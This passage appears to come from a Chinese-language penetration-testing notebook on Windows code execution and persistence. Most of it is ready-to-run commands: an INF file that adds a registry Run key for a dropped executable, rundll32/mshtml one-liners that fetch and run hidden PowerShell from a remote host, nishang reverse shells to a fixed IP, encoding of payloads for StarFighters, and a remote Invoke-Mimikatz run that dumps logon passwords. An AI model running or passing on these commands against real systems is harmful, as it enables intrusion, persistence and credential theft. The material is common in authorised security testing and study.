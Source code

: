 	保存为.inf文件
	>rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/reg.inf
	[Version]
	Signature="$WINDOWS NT$"
	[DefaultInstall]
	AddReg=AddReg
	DelReg=DelReg
	[AddReg] #删除DelReg删掉红色部分执行
	HKLM,SOFTWARE\Microsoft\Windows\CurrentVersion\Run,SYSTEM,0x00000000,c:/windows/temp/sv.exe
	0x00010001表示REG_DWORD数据类型，0x00000000或省略该项(保留逗号)表示REG_SZ(字符串)
  ##### 写文件
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";fso=new%20ActiveXObject("Scripting.FileSystemObject");a=fso.CreateTextFile("c:\\Temp\\testfile.txt",true);a.WriteLine("Test");a.Close();self.close();
  ##### Out-RundllCommand
	使用nishang脚本Out-RundllCommand生成rundll代码
	>powershell -nop -w h -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Execution/Out-RundllCommand.ps1'); Out-RundllCommand -Reverse -IPAddress 192.168.0.107 -Port 12345"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/135.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/136.png)

	注：低版本powershell，隐藏窗口只识别-w hidden，高版本可以-w h
	执行远程PS脚本
	>Out-RundllCommand -PayloadURL http://192.168.0.107/Invoke-PowerShellUdp.ps1 -Arguments "Invoke-PowerShellUdp -Reverse -IPAddress 192.168.0.107 -Port 12138"
	上线MSF
	生成psh-reflection格式脚本
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();r=new%20ActiveXObject("WScript.Shell").run("powershell -w hidden -nologo -noprofile -ep bypass IEX ((New-Object Net.WebClient).DownloadString('http://192.168.0.107/xx.ps1'));",0,true);
  #### DotNetToJScript
	通过js/vbs执行.net程序
	https://github.com/tyranid/DotNetToJScript/releases
	>DotNetToJScript.exe -o 1.js ExampleAssembly.dll 生成js
	>DotNetToJScript.exe -l vbscript -o 2.vbs ExampleAssembly.dll生成vbs
	>DotNetToJScript.exe -l vba -o 2.txt ExampleAssembly.dll 生成vba
	>DotNetToJScript.exe -u -o 3.sct ExampleAssembly.dll生成sct
  ##### StarFighters
	https://github.com/Cn33liz/StarFighters 可以执行powershell代码，详见
	执行单条命令
	$code = 'start calc.exe'
	$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
	$encoded = [System.Convert]::ToBase64String($bytes)
	$encoded
	复制为var EncodedPayload的值
	远程执行mimikatz
	powershell IEX "(New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/powersploit/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command 'log privilege::debug sekurlsa::logonpasswords'"
	以上保存在code.txt
	$code = Get-Content -Path code.txt
	$bytes  = [System.Text.Encoding]::UNICODE.GetBytes($code);
	$encoded = [System.Convert]::ToBase64String($bytes)
	$encoded | Out-File 2.txt
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/137.png)
